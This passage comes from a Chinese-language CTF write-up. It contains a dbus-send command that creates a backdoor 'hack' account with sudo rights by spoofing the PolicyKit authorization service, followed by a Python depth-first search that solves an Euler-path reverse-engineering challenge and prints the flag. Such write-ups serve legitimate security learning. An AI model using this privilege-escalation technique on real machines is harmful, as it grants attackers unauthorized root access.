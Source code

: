 ```plain
    mainloop.run()
```

2.连接服务, 并使用

```plain
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:hack string:"" int32:1
```

命令创建一个后门帐号, 由于我们实现了一个自己的 org.freedesktop.PolicyKit1.Authority 的 CheckAuthorization, 因此我们可以操作任意的 policykit-1 方法, 我们可以用 createUser 创建帐号, 用 Accounts.User.SetPassword 修改密码.

此时的这个 hack 用户可以拥有 sudo 权限

3.切到 hack 用户, 并且使用密码切到 root 账号

# Reverse

## 欧拉！

程序中的问题可以转化为，求一个图中的欧拉路径问题，首先分析邻接表，由邻接表可知无向图中有两个结点的度为奇数，其他结点的度均为偶数，所以该图存在欧拉路，但是不存在欧拉回路，且欧拉路的起点，和终点一定分别为度为奇数的两个结点，即 0 结点，或者 4 结点。

由之前的约束条件可以知道，输入的数据中最后一个为 4 所以，结点 4 是作为终点。那结点 0 即为起点，所以输入的第一个数字为 0 ，在后面编写脚本搜索时我们也使用 0 作为起点去搜索。

使用 DFS 的方法搜索所有欧拉路径，且根据约束条件过滤，不符合要求的欧拉路径

```plain
def findeuler(m, cur, vis, record, cnt):
     if cnt == v + 1:
         if record[1] > record[2] and record[3] < record[4] and record[0] == record[8] and record[11] == record[15] and record[10] > record[5] and record[3] < record[13] and record[7] < record[4] and record[14] == 7 and record[17] == 4:
             print("aliyunctf{", end = "")
             for i in range(0, cnt):
                 print(str(record[i]), end ="")
             print("}")
             return
     for i in range(0, 9):
         if m[cur][i] == 1 and vis[cur][i] == 0:
             vis[i][cur] = vis[cur][i] = 1
             record[cnt] = i
             cnt += 1
             findeuler(m, i, vis, record, cnt)
             cnt -= 1
             vis[i][cur] = vis[cur][i] = 0
     return


 if __name__ == "__main__":
     graph = np.array([[0, 0, 1, 0, 0, 1, 0, 0, 1],
                     [0, 0, 0, 1, 1, 1, 0, 0, 1],
                     [1, 0, 0, 1, 0, 0, 1, 1, 0],
                     [0, 1, 1, 0, 1, 0, 0, 0, 1],
                     [0, 1, 0, 1, 0, 0, 1, 0, 0],
                     [1, 1, 0, 0, 0, 0, 1, 0, 1],
                     [0, 0, 1, 0, 1, 1, 0, 0, 1],
                     [0, 0, 1, 0, 0, 0, 0, 0, 1],
                     [1, 1, 0, 1, 0, 1, 1, 1, 0]])
     for i in range(0, 9):
         for j in range(0, 9):
             if graph[i][j] == 1:
                 v += 1
     v //= 2
     vis = np.random.randint(0,1,81).reshape((9,9)) #vis矩阵用来判断该条边是否被走过,初始状态下全为0
```